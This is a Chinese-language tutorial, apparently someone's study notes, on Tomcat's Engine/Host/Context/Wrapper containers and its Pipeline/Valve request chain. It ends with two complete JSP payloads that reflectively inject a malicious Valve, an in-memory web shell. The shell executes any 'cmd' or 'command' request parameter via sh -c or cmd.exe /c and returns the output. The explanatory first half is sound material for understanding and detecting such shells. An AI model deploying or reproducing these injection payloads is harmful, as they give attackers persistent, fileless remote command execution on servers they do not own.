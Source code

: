 Tomcat的两个核心组件连接器：Connector和Container

```
Tomcat的Container分为四个层级，从上到下依次为：
1.Engine（引擎）：
一个 Tomcat 实例中只能有一个 Engine，负责处理所有进入 Tomcat 的请求。
是 Container 的顶层容器，管理多个 Host 容器。
2.Host（主机）：
代表一个虚拟主机，通常对应一个域名（如 example.com）。
每个 Host 管理多个 Context 容器，负责将请求按域名分发到不同的 Web 应用。
3.Context（上下文）：
代表一个 Web 应用，对应服务器上的一个 Web 应用目录（如 /webapps/myapp）。
管理 Servlet 的注册、初始化及请求的具体处理逻辑。
4.Wrapper（包装器）：
最底层的容器，直接封装一个 Servlet 实例。
负责处理单个 Servlet 的请求，是 Container 架构的最基本单元。
```
![fa565e4f87ffb3ed06cdb2a1be014c56.png](../_resources/fa565e4f87ffb3ed06cdb2a1be014c56.png)
Container处理的第一层就是Engine容器，但是在tomcat中Engine容器不会直接调用Host容器去处理请求，而是调用了自己的pipeline组件去处理，跟pipeline相关的还有个也是容器内部的组件，叫做value组件。

Pipeline的作用就如其中文意思一样——管道，可以把不同容器想象成一个独立的个体，那么pipeline就可以理解为不同容器之间的管道，道路，桥梁。那Valve这个组件是什么东西呢？Valve也可以直接按照字面意思去理解为阀门。我们知道，在生活中可以看到每个管道上面都有阀门，Pipeline和Valve关系也是一样的。Valve代表管道上的阀门，可以控制管道的流向，当然每个管道上可以有多个阀门。如果把Pipeline比作公路的话，那么Valve可以理解为公路上的收费站，车代表Pipeline中的内容，那么每个收费站都会对其中的内容做一些处理（收费，查证件等）。

在catalina中，4种容器都有自己的Pipeline组件，每个Pipeline组件上至少会设定一个Valve，这个Valve我们称之为BaseValve，也就是基础阀。基础阀的作用是连接当前容器的下一个容器（通常是自己的自容器），可以说基础阀是两个容器之间的桥梁。

Pipeline定义对应的接口Pipeline，标准实现了StandardPipeline。Valve定义对应的接口Valve，抽象实现类ValveBase，4个容器对应基础阀门分别是StandardEngineValve，StandardHostValve，StandardContextValve，StandardWrapperValve。

Catalina 是 Apache Tomcat 的核心组件，它是 Servlet 容器 的具体实现，负责处理和管理 Java Web 应用的运行环境

用springboot-web代替tomcat的环境
创建test目录下的两个文件
```
package org.example.valvememoryshelldemo.test;

import java.io.IOException;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.valves.ValveBase;
import org.springframework.stereotype.Component;

@Component
public class TestValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws IOException {
        response.setContentType("text/plain");
        response.setCharacterEncoding("UTF-8");
        response.getWriter().write("Valve 被成功调用");
    }
}
```


```
package org.example.valvememoryshelldemo.test;

import org.apache.catalina.Valve;
import org.springframework.boot.web.embedded.tomcat.TomcatServletWebServerFactory;
import org.springframework.boot.web.server.WebServerFactoryCustomizer;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;

@Configuration
public class TestConfig {
    @Bean
    public WebServerFactoryCustomizer<TomcatServletWebServerFactory> tomcatCustomizer() {
        return factory -> {
            factory.addContextValves(getTestValve());
        };
    }

    @Bean
    public Valve getTestValve() {
        return new TestValve();
    }
}
```
通常情况下用的ValveBase，点进ValveBase，看到实现了Valve接口：
![9560512a5e7192f9eafbcc1e10f9cc41.png](../_resources/9560512a5e7192f9eafbcc1e10f9cc41.png)
```
public interface Valve {
    Valve getNext();  // 获取下一个阀门

    void setNext(Valve var1); // 设置下一个阀门

    void backgroundProcess(); // 后台执行逻辑，主要在类加载上下文中使用到

	// 执行业务逻辑
    void invoke(Request var1, Response var2) throws IOException, ServletException;

	// 是否异步执行
    boolean isAsyncSupported();
}

```
接下来进行调试，看看之前调用的invoke方法在StandardHostValve.java中，代码为：
```
context.getPipeline().getFirst().invoke(request, response);
```
![9fbfeb49a28acff150f7ad87273c6a9b.png](../_resources/9fbfeb49a28acff150f7ad87273c6a9b.png)
在StandardEngineValve中为
```
host.getPipeline().getFirst().invoke(request, response);
```
![cadf5d90e84b2379faff86a02d5d60ff.png](../_resources/cadf5d90e84b2379faff86a02d5d60ff.png)
后面就不关注了，就关注自己能打进去的value内存马

进去，点击图中的红框箭头
![ff2c6787ad3fbfd175369f3e176fbb2d.png](../_resources/ff2c6787ad3fbfd175369f3e176fbb2d.png)
进去对应的pipeline接口
![86f4166228a5234cd8433fc0869f6c57.png](../_resources/86f4166228a5234cd8433fc0869f6c57.png)
![65503b7b47391086b02eaf5b23be22be.png](../_resources/65503b7b47391086b02eaf5b23be22be.png)
看到addvalue方法
![242b047dbb1263bee541910932ee06a0.png](../_resources/242b047dbb1263bee541910932ee06a0.png)
无法直接获取到这个StandardPipeline，而我们能直接获取到的是StandardContext，那就去看看StandardContext.java中有没有获取StandardPipeline的方法。getPipeline能实现获取
![b2b78a6439d736e1ca9d6a1788769de7.png](../_resources/b2b78a6439d736e1ca9d6a1788769de7.png)
![5ef84f1414bc43b251fc9c0ac82f2ece.png](../_resources/5ef84f1414bc43b251fc9c0ac82f2ece.png)
那这样以来我们的思路就可以补充完整了，先反射获取StandardContext，然后编写一个恶意Valve，最后通过StandardContext.getPipeline().addValve()添加就可以了。当然，我们也可以反射获取StandardPipeline，然后再addValve，这样也是可以的。
```
采用了从StandardContext反射获取StandardPipeline的方式
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true);
    final Request req = (Request) requestField.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
    Field pipelineField = ContainerBase.class.getDeclaredField("pipeline");
    pipelineField.setAccessible(true);
    StandardPipeline evilStandardPipeline = (StandardPipeline) pipelineField.get(standardContext);
    ValveBase evilValve = new ValveBase() {
        @Override
        public void invoke(Request request, Response response) throws ServletException,IOException {
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.setCharacterEncoding("GBK");
                PrintWriter out = response.getWriter();
                out.println(output);
                out.flush();
                out.close();
                this.getNext().invoke(request, response);
            }
        }
    };
    evilStandardPipeline.addValve(evilValve);
    out.println("inject success");
%>
```



```
调用 standardContext.getPipeline().addValve实现
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
  class testEvilValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws ServletException,IOException {
      if (request.getParameter("command") != null) {
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
          isLinux = false;
        }
        String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("command")} : new String[]{"cmd.exe", "/c", request.getParameter("command")};
        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
        Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
        String output = s.hasNext() ? s.next() : "";
        response.setCharacterEncoding("GBK");
        PrintWriter out = response.getWriter();
        out.println(output);
        out.flush();
        out.close();
        this.getNext().invoke(request, response);
      }
    }
  };
%>

<%
  Field requestField = request.getClass().getDeclaredField("request");
  requestField.setAccessible(true);
  final Request req = (Request) requestField.get(request);
  StandardContext standardContext = (StandardContext) req.getContext();
  standardContext.getPipeline().addValve(new testEvilValve());
  out.println("inject success");
%>
```
![a1d31af337d6a1db4ee29215de5daf99.png](../_resources/a1d31af337d6a1db4ee29215de5daf99.png)

